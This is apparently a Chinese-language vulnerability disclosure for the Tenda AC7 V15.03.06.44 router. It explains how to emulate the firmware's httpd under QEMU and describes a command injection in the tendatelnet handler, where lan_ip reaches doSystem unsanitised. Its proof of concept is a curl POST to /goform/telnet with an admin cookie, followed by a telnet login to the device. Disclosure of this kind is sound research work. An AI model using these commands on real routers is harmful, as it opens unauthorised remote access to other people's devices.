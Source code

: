概述
--

固件下载网站：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### 环境模拟

直接使用原本的固件中的httpd会因为环境检查导致模拟不成功，这里提供patch后的httpd文件(本项目中的a7__V15.03.06.44_httpd_ok文件)，（修改汇编强制跳过环境检查步骤）：

模拟命令：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

受攻击版本
-----

TenDa   AC7   V15.03.06.44

漏洞详情
----

**在Tenda AC7 V1.0\_V15.03.06.44设备中找到一个问题 ：此tendatelnet函数处理http中的请求，没有对参数lan\_ip做合适的处理，且后面直接与doSystem系统级函数拼接这可能导致命令注入漏洞，也可能会导致shell元字符被启动，例如攻击者可能使用telnet远程访问被攻击的设备。**

![image](https://github.com/user-attachments/assets/560f7ed3-c51b-4052-8b54-d9d149461896)


交叉引用发现调用此函数的上级函数为telnet，一级目录名是goform。

![image](https://github.com/user-attachments/assets/bafe875a-a234-4c27-900f-dc2832326e77)


概念验证
----

```text-x-haskell
curl -i -X POST http://192.168.142.100/goform/telnet -d Raining=Raining --cookie "user=admin" --http0.9
telnet 192.168.142.100 80
```
![image](https://github.com/user-attachments/assets/91ef600d-65a3-4d16-9cd5-965644cdfc3b)
